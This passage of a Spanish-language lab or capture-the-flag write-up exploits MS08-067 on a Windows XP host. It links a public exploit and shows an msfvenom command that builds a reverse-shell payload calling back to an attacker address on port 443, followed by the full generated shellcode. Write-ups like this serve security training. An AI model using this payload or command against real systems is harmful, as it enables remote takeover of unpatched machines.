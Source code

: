 Nmap nos reporta que el servicio es vulnerable a `ms08-067` ya que corresponde a un `Windows XP`.


Para poder explotarla vamos a descargarnos un exploit de `andyacer` de github:

* [https://github.com/andyacer/ms08_067](https://github.com/andyacer/ms08_067)
 
Ahi nos explican a fondo en que consiste la explotación y nos pide que generemos un `shellcode` el cual debemos ingresar al `exploit`.


Para ello vamos a generar el shellcode usando `msfvenom`, si no sabes como en el repositorio te explica como debemos hacerlo exactamente, solo debemos especificar nuestra ip y el puerto.


```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.3 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1491 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\x63\xc8\xc3\x99\x83\xee\xfc\xe2\xf4\x9f\x20\x41\x99"
"\x63\xc8\xa3\x10\x86\xf9\x03\xfd\xe8\x98\xf3\x12\x31\xc4"
"\x48\xcb\x77\x43\xb1\xb1\x6c\x7f\x89\xbf\x52\x37\x6f\xa5"
"\x02\xb4\xc1\xb5\x43\x09\x0c\x94\x62\x0f\x21\x6b\x31\x9f"
"\x48\xcb\x73\x43\x89\xa5\xe8\x84\xd2\xe1\x80\x80\xc2\x48"
"\x32\x43\x9a\xb9\x62\x1b\x48\xd0\x7b\x2b\xf9\xd0\xe8\xfc"
"\x48\x98\xb5\xf9\x3c\x35\xa2\x07\xce\x98\xa4\xf0\x23\xec"
"\x95\xcb\xbe\x61\x58\xb5\xe7\xec\x87\x90\x48\xc1\x47\xc9"
"\x10\xff\xe8\xc4\x88\x12\x3b\xd4\xc2\x4a\xe8\xcc\x48\x98"
"\xb3\x41\x87\xbd\x47\x93\x98\xf8\x3a\x92\x92\x66\x83\x97"
"\x9c\xc3\xe8\xda\x28\x14\x3e\xa0\xf0\xab\x63\xc8\xab\xee"
"\x10\xfa\x9c\xcd\x0b\x84\xb4\xbf\x64\x37\x16\x21\xf3\xc9"
"\xc3\x99\x4a\x0c\x97\xc9\x0b\xe1\x43\xf2\x63\x37\x16\xc9"
"\x33\x98\x93\xd9\x33\x88\x93\xf1\x89\xc7\x1c\x79\x9c\x1d"
"\x54\xf3\x66\xa0\xc9\x93\x73\xcb\xab\x9b\x63\xc9\x78\x10"
"\x85\xa2\xd3\xcf\x34\xa0\x5a\x3c\x17\xa9\x3c\x4c\xe6\x08"
"\xb7\x95\x9c\x86\xcb\xec\x8f\xa0\x33\x2c\xc1\x9e\x3c\x4c"
"\x0b\xab\xae\xfd\x63\x41\x20\xce\x34\x9f\xf2\x6f\x09\xda"
"\x9a\xcf\x81\x35\xa5\x5e\x27\xec\xff\x98\x62\x45\x87\xbd"
"\x73\x0e\xc3\xdd\x37\x98\x95\xcf\x35\x8e\x95\xd7\x35\x9e"
"\x90\xcf\x0b\xb1\x0f\xa6\xe5\x37\x16\x10\x83\x86\x95\xdf"
"\x9c\xf8\xab\x91\xe4\xd5\xa3\x66\xb6\x73\x23\x84\x49\xc2"
"\xab\x3f\xf6\x75\x5e\x66\xb6\xf4\xc5\xe5\x69\x48\x38\x79"
"\x16\xcd\x78\xde\x70\xba\xac\xf3\x63\x9b\x3c\x4c";
```
